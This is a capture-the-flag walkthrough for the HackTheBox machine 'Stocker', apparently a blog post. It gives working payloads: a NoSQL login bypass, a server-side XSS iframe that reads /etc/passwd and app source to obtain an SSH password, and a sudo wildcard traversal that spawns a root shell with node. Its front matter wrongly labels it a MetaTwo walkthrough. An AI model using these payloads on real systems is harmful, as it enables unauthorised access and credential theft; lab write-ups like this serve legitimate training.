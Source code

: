 ```yaml
---
title: "HTB Stocker: NoSQL in MongoDB"
date: 2022-12-06T11:30:03+00:00
weight: 1
# aliases: ["/first"]
tags: ["hackthebox"]
categories: ["hackthebox","easy","linux", "git-hooks-privesc"]
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: true
draft: false
hidemeta: false
comments: false
description: "HTB MetaTwo walkthrough"
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: false
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "metatwo/MetaTwo.png" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page

---
```


## Recon
### Services
```nmap```:
**22 - SSH** and port **80 - nginx**. 
```
PORT      STATE  SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|  256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

### Subdomains

```gobuster```: dev.stocker.htb

```sql
➜  ~ gobuster vhost --url http://stocker.htb/ --wordlist ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 100
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb/
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /home/ennl/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/07 19:01:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

### Website
So now, we have plain ```stocker.htb``` page without anything, and  subdomain page ```dev.stocker.htb``` with redirect to ```dev.stocker.htb/login```.

## Exploitation
### Authentication bypass via NoSQL

https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

I found that the login is susceptible to NoSQL Authentication Bypass after experimenting with various methods. We can bypass auth using 

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

so, POST-request in BurpSuite gonna be look like:

```bash
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Once the request has been modified, you get an auth bypass:
![1.png](/stocker/0.png)

In browser:
![1.png](/stocker/1.png)

## Client-Side XXS
Now, via page ```/stock``` add product to basket and intercept HTTP-request with BurpSuite.
![1.png](/stocker/1.png)

We have an API ```/api/order``` to make an order, which sends the ```basket" as a parameter.

And order details are available on /api/po/ID.V

```/api/order``` is a dynamic PDF generator, which has vulnerable to Server Side XSS parameter ```title```. 

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

```
{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<iframe src=file:///etc/passwd height='1500'  width='700' ></iframe>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":3}]}
```

Response:
![1.png](/stocker/3.png)

Do the same with ```file:///var/www/dev/index.js``` and get user SSH password.

![1.png](/stocker/4.png)

## Privelege Escalation

```sudo -l```:
```
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We got a wildcard in the path, which means we can put another path in place of that wildcard, but we still should use node.js.

https://gtfobins.github.io/gtfobins/node/

Create a ```root.js``` in user dir:

```bash
angoose@stocker:~$ nano root.js

node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
Then, start it by:
```
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/root.js
```

And get the root:

```bash
bash-5.0# cat /root/root.txt

f7723bd4b96f3cd26788fcb4f4714b08
```